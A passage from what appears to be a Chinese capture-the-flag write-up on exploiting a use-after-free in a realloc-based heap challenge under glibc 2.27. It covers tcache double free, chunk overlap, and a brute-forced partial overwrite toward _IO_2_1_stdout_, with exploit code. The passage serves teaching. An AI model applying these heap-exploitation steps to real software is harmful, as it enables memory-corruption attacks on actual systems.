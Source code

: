 --------

#### 漏洞利用

虽然程序中有`UAF`，glibc2.27的tcache也基本没什么防护，但想通过现有条件在`tcache`上打出`chunk_overlap`实现任意地址分配还是需要一些构造的:  

首先，这个程序只使用一个位于`.bss`段上的指针来寻址堆块，构造堆块重叠的思路一般是:  

 - 先分配一个`chunk0`
 - `realloc(0)`清空指针，再分配一个`chunk1`( 大于`chunk0`免得重新把`chunk0`拿出来 )
 - 多次`free(chunk1)`造成`double free`，在`realloc(0)`清空指针
 - 把`chunk0`重新分配出来，接着`realloc()`扩充`chunk0`
 - 接下来再往`chunk0`上写入数据就能改到`chunk1`的`fd`指针了，同时`chunk1`现在是在`tcache_bins`中的

如此就实现了任意地址写.

但是这里我们没有`libc_base`地址，不过考虑到:  

 - `unsorted_bins`中第一个堆块的`fd`和`bk`指针会指向`main_arena+96`的地址
 - `libc_base`的后12个比特位总是0，覆盖`fd`时可以直接去覆盖`main_arena+96`的后12位，再加以爆破4位就可以分配到`_IO_2_1_stdout`上进行进一步利用:  

 	 - 例如覆盖`fd`低16位为:  `p16( (0x6 << 0xc) + (l.symbols['_IO_2_1_stdout_'] & 0xfff) )`就有 $\frac{1}{16}$ 的概率成功，实际利用中写个循环即可.

此外，本题中若是直接通过`tcache_double_free`填满`tcache`，则该堆块在下次释放时会因为和`top_chunk`相邻而直接触发`top_chunk`的合并，无法分配进`unsorted_bins`，因此就需要借助堆块的收缩来隔开`freed_chunk`和`top_chunk`:  

```py
def freeN():
	ru(b">>")
	sl(b"2")
def reallocN(size, content):
	ru(b">>")
	sl(b"1")
	ru(b"Size?\n")
	sl(str(size).encode())
	ru(b"t?\n")
	sn(content)
def clearN():
	ru(b">>")
	sl(b"1")
	ru(b"Size?\n")
	sl(str(0).encode())
	ru(b"t?\n")
	sn(b'')
def backD():
	ru(b">>")
	sl(b"666")

reallocN(0x20, b'aaa')
clearN()
reallocN(0x100, b'bbb')
reallocN(0xa0, b'bbb')		# 隔开topchunk和unsorted_chunk
for i in range(7):
	freeN()
clearN()

reallocN(0x20, b'aaa')
reallocN(0xc0, b'a'*0x20 + p64(0) + p64(0x51) + p16( (0x6 << 0xc) + (l.symbols['_IO_2_1_stdout_'] & 0xfff) ))
# 上一行中p64(0x51)是为了防止清空指针时把这一块又放回0xb0大小的tcache中，导致下一个chunk( _IO_2_1_stdout )无法取出

clearN()
reallocN(0xa0, b'aaa')
clearN()
# reallocN(0xa0, '''payload''')
```
